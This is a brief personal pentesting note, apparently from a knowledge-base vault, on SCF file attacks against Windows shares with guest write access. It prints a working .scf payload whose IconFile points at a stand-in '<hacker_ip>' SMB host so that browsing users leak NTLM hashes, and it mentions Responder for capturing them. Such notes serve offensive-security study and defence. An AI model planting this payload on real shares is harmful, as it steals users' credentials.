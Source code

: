 ```yaml
---
type: info
scope: []
aliases: [scf]
related: []
created: 16-03-2023 16:51
---
```

%%
related::
%%

#todo 

## Overview
- If guest given write access, can upload scf which when read by authenticated user, will execute (can be malicious e.g. send ntlm has`)

```scf
[Shell]
Command=2
IconFile\\<hacker_ip>\anything
[Taskbar]
Command=ToggleDesktop
```

- Use [[Responder]] to quickly configure smb server

## References
- 